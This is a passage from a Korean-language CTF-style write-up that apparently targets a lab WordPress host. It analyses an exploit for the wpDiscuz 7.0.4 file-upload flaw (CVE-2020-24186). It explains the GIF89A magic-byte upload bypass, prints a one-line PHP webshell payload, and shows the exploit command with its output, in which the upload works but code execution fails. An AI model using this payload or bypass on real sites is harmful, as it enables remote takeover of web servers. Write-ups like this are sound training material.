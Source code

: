 
#### 49967.py 익스플로잇 분석

- 위 익스플로잇들은 모두 파일 업로드 취약점을 공격하는 코드이다. 그 중 파이썬 익스플로잇을 사용해 공격을 진행하는데, 해당 코드를 분석해보면 알 수 있지만 이 익스플로잇은 웹쉘 바로 앞에 이미지 파일의 매직 바이트(GIF89A)를 붙이는 방식으로 업로드 우회를 한다.
  - ![alt text](/images/2025-08-23-test11/image-2.png)

- 기본적으로 사용되는 페이로드는 PHP 한줄 웹쉘 - <? php system($_GET['cmd']) ?> - 이기 때문에 뒤에 cmd를 붙여 원하는 코드를 실행할 수 있다.
- ![alt text](/images/2025-08-23-test11/image-3.png)

<div style="page-break-after: always;"></div>

---

### 취약점 공격 및 초기 침투

- 49967.py 익스플로잇을 실행해보면 업로드는 성공하지만 코드 실행은 실패한다.

```
└─# python3 49967.py -u http://blogger.thm/assets/fonts/blog -p '/?p=25'                                                                  
---------------------------------------------------------------                                                                           
[-] Wordpress Plugin wpDiscuz 7.0.4 - Remote Code Execution                                                                               
[-] File Upload Bypass Vulnerability - PHP Webshell Upload                                                                                
[-] CVE: CVE-2020-24186                                                                                                                   
[-] https://github.com/hevox                                                                                                              
---------------------------------------------------------------                                                                           
                                                                                                                                          
[+] Response length:[59090] | code:[200]                                                                                                  
[!] Got wmuSecurity value: aeff0d15e5                                                                                                     
[!] Got wmuSecurity value: 25                                                                                                             
```